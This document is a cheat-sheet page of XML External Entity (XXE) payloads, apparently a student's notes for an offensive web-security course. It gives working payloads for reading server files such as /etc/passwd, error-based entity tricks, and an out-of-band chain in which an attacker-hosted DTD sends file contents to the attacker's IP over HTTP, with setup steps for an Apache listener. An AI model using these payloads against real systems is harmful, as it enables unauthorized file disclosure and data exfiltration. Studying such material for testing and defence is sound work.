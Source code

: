 ```yaml
---
title: Useful Payloads
layout: default
parent: XML External Entity
has_children: false
nav_order: 1
---
```


1\. If you want to escape `<` and `>` inside your XML data, include the whole data inside:\
`<![CDATA[ content that contains < or > ]]>`

2\. Type of XML Entities:\
Internal - `<!ENTITY test "<entity-value>test value</entity-value>">` or `<!ENTITY test "value">`\
Private External (private because of SYSTEM) - `<!ENTITY offsecinfo SYSTEM "http://www.offsec.com/company.xml">`\
Public External (public because of PUBLIC) - `<!ENTITY offsecinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://www.offsec.com/companyinfo.xml">`\
Parameter (solely within a DTD, in this example `%course;` can be used to refer to `WEB 200`) - `<!ENTITY % course 'WEB 200'>`

3\. <b>Results Directly Reflected</b>:

Original:

```
<?xml version="1.0" encoding="UTF-8"?><entity-engine-xml>     <Product createdStamp="2021-06-29 16:01:57.355" createdTxStamp="2021-06-29 16:01:55.979" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-29 16:02:40.282" lastUpdatedTxStamp="2021-06-29 16:02:40.019" longDescription="This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item." primaryProductCategoryId="202" productId="WG-9943" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE"/>     <Product createdStamp="2021-06-29 16:01:57.985" createdTxStamp="2021-06-29 16:01:55.979" description="Black Giant Widget with 3 Wheels" internalName="Giant Widget B3" isVariant="Y" isVirtual="N" lastUpdatedStamp="2021-06-29 16:02:09.366" lastUpdatedTxStamp="2021-06-29 16:02:02.981" longDescription="This giant widget is mobile. It will seat one person safely. The wheels will never rust or break. Quite a unique item." primaryProductCategoryId="202" productId="WG-9943-B3" productName="Giant Widget B3" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000"/>     <Product createdStamp="2021-06-29 16:01:59.09" createdTxStamp="2021-06-29 16:01:55.979" internalName="Round Gizmo" isVariant="N" isVirtual="N" largeImageUrl="/images/products/GZ-2644/large.png" lastUpdatedStamp="2021-06-29 16:02:32.639" lastUpdatedTxStamp="2021-06-29 16:02:32.431" longDescription="A small round gizmo with multi-colored lights. Works great in the dark. Small and compact." primaryProductCategoryId="101" productId="GZ-2644" productTypeId="FINISHED_GOOD" productWeight="7.000000" quantityIncluded="100.000000" smallImageUrl="/images/products/GZ-2644/small.png"/> </entity-engine-xml> 
```

Modified:

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]><entity-engine-xml><Product createdStamp="2021-06-29 16:01:57.355" createdTxStamp="2021-06-29 16:01:55.979" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-29 16:02:40.282" lastUpdatedTxStamp="2021-06-29 16:02:40.019" primaryProductCategoryId="202" productId="TEST-1234" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE"><longDescription>&xxe;</longDescription></Product></entity-engine-xml> 
```

Modified the following:\
    a. First line `<?xml....>` is optional therefore removed.\
    b. Added `<!DOCTYPE data [`, `<!ELEMENT data ANY >` and `<!ENTITY xxe "Vulnerable to XXE">`.\
    c. Removed longDescription from the Product tag and separately use a new longDescription tag so that can use `&xxe;` to inject.\
    d. Removed the forward slash (`/`) at the end of Product tag and close the Product tag manually using `</Product>` so that longDescription is included inside Product tag.

To change it so that we can access local file, just need to change `<!ENTITY xxe "Vulnerable to XXE">` to:\
`<!ENTITY xxe SYSTEM "file:///etc/passwd">`


4\. <b>Error based</b> (usually is the value too long or weird for the parameter, can try change other parameter if no error):

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>&xxe;</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```

Alternative error based:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

5\. <b>Out of band</b>:

a\. Create a file name `external.dtd`:

```
<!ENTITY % content SYSTEM "file:///etc/timezone">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```

b\. At the vulnerable page (the parameter entity %base, %external etc must be left within DOCTYPE):

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://your ip address/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

c\. Copy the `external.dtd` to /var/www/html, and then `sudo systemctl start apache2`, after that `sudo tail /var/log/apache2/access.log` to see the results


6\. <b>Exam?</b> Try `file:///proof.txt`